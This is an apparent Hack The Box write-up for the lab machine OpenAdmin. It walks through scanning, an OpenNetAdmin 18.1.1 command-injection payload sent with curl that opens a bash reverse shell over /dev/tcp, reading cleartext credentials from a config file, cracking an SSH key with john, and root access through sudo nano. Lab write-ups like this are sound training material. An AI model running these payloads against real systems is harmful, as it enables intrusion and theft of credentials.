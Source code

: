 # [OpenAdmin](https://app.hackthebox.com/machines/OpenAdmin)

```bash
nmap -sT -p- --min-rate 10000 10.10.10.171 -Pn
```

![Alt text](img/image.png)

Here, we see that (22,80) ports are open.Let's do greater nmap scan for this ports.

```bash
nmap -sC -sV -A -p22,80 10.10.10.171 -Pn
```

![Alt text](img/image-1.png)


Directory Enumeration.

```bash
gobuster dir -u http://10.10.10.171 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -x php,txt,html 
```


![Alt text](img/image-2.png)

While enumerating '/music' directory , I see that there is endpoint '/ona' , we can access here.

![Alt text](img/image-3.png)


Let's search exploit for 'OpenNetAdmin' version of 18.1.1 that we can find anything.

![Alt text](img/image-4.png)


Let's do manually use this exploit.

```bash
curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;bash -c 'bash -i >%26 /dev/tcp/10.10.16.8/1337 0>%261'&xajaxargs[]=ping"  http://10.10.10.171/ona/
```

![Alt text](img/image-5.png)

We got reverse shell from port (1337).

![Alt text](img/image-6.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-7.png)


I find cleartext credentials for file (database_settings.inc.php) on '/var/www/html/ona/local/config' directory.

![Alt text](img/image-8.png)


I tried this credentials, and worked for 'jimmy' user.

jimmy: n1nj4W4rri0R!

![Alt text](img/image-9.png)



While I doing local enumeration for network.

```bash
netstat -ntpl
```

![Alt text](img/image-10.png)


There is port (52846) , if we browse this page, it gives private key (id_rsa).

![Alt text](img/image-11.png)


I need to crack this by using `ssh2john` tool.

```bash
ssh2john id_rsa > hash.txt
```

After we got hash, we need to crack this via `john` tool.

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![Alt text](img/image-12.png)


Let's login via this private key (id_rsa) file.

```bash
chmod 600 id_rsa
ssh -i id_rsa joanna@10.10.10.171
```

![Alt text](img/image-13.png)

user.txt

![Alt text](img/image-14.png)


While I try to do privilege escalation via checking `sudo -l` command.

![Alt text](img/image-15.png)


I find exploit for privesc from [here](https://gtfobins.github.io/gtfobins/nano/#sudo)

```bash
sudo /bin/nano /opt/priv

^R^X  #means Ctrl+R then Ctrl+X
reset; sh 1>&0 2>&0
```


root.txt

![Alt text](img/image-16.png)